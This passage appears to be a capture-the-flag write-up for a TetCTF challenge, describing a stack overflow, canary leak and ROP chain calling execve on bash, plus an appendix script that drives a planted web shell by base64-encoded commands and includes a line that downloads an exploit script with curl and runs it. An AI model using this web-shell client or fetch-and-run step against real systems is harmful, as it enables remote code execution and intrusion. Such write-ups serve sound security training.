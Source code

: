 We can see that it attempts to copy the received buff onto the stack variable, effectively doing a memcopy on the stack, but since it doesn’t reserve enough space for the buff, we can overflow and control rip. 

# Exploitation

We know that we can control rip by overwriting the return pointer. However stack canary is enabled in this binary, so we need to leak the canary first. Since the service daemon is forking itself for each connection, the layout and canary won’t change between connection, so we just need two connections, one to leak and one to pwn. 

Initially I tried to use the rop chain generated by ropper but it’s too long, and the shell doesn’t pop back through socket. I also realize that the rop chain runs on a different process, therefore we need to do other stuff to get our flag.

I end up constructing a rop chain to call `execve ("/bin/bash",["/bin/bash","-c",cmd],0)` then copy the flag file and change the permission to read it through web shell.

``` plaintext
part 2 flag: TetCTF{cc17b4cd7d2e4cb0af9ef992e472b3ab}
``````

# Appendix 1 - shell.py

{% capture shell_py %}
```python
import requests
import base64
from pwn import *
ip = ""
webserver_port = 0
def send_cmd(s):
    s = s+";echo a;"
    cmd = base64.b64encode(s.encode()).decode('latin-1')
    payload = f"http://18.191.117.63:9090/uploads/bronson113/webshell.py?{cmd}"
    print(payload)
    r = requests.get(payload)
    if r.text[:9]=="[base64] ":
        print("base64 data:", base64.b64decode(r.text[9:-2]))
    if r.text[:6]== "[exp] ":
        raw_data = base64.b64decode(r.text[6:-2])
        print(f"raw_data: {raw_data}")
        print(','.join(hex(u64(raw_data[i:i+8])) for i in range(8, len(raw_data), 8)))

    else:
        print(r.text[:-2])

while True:
    s = input(">> ").strip()
    if s=="exp":
        send_cmd(f"curl https://{ip}:{webserver_port}/exp.py > local_exp_bronson113_v1.py;python3 local_exp_bronson113_v1.py")
    else:
        send_cmd(s)

#TetCTF{65e95f4eacc1fe7010616e051f1c610a}
```
{% endcapture %}
